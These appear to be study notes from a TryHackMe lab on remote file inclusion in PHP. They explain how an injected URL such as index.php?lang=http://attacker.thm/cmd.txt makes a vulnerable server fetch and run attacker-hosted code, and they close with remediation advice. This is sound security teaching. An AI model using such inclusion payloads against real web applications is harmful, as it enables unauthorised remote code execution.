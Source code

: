 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png)  

RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

Visit the following lab URL: http://10.10.216.13/playground.php[](http://10.10.216.13//playground.php) to try out an RFI attack.

### Answer the questions below
---
*We showed how to include PHP pages via RFI. Do research on how to get remote command execution (RCE), and answer the question in the challenge section.*

>[!question]- **Answer**  
>  No answer needed!


## Remediation
---
As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

  

1. Keep system and services, including web application frameworks, updated with the latest version.  
    
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.  
    
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.  
    
7. Implement whitelisting for file names and locations as well as blacklisting.

### Answer the questions below
